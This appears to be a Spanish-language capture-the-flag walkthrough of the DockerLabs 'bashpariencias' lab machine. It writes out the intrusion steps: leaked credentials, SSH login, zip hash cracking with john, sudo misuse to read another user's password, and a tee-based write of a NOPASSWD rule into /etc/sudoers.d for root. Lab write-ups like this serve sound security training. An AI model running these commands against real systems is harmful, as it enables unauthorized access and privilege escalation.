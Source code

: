 nmap: 80, 8899
![image](https://github.com/user-attachments/assets/3640f876-af5a-4520-8312-e1baa9297e3c)


---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![image](https://github.com/user-attachments/assets/e5b6b0b1-ddc1-46da-b4d1-14900eaf7de0)


      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![image](https://github.com/user-attachments/assets/8332872b-8231-4713-8063-99ce0c01c9d9)

"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:

![image](https://github.com/user-attachments/assets/f944088b-07c4-44f3-ab79-afb6f5c66152)


encontré esto:

![image](https://github.com/user-attachments/assets/5af3897b-ba52-4fde-be0a-01cd25f6cc20)


dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip

![image](https://github.com/user-attachments/assets/af76f6a6-3cb2-4d7c-845b-c4e590ebb4d1)


nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash.txt
          john hash.txt

y nos da la contraseña:
![[dockerlabs/medio/bashpariencias/contraseña1.png]]
ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash
![[contraseña2.png]]
probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado
![[contraseña3.png]]


con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"
![[dockerlabs/medio/bashpariencias/root.png]]
 y somos root!.
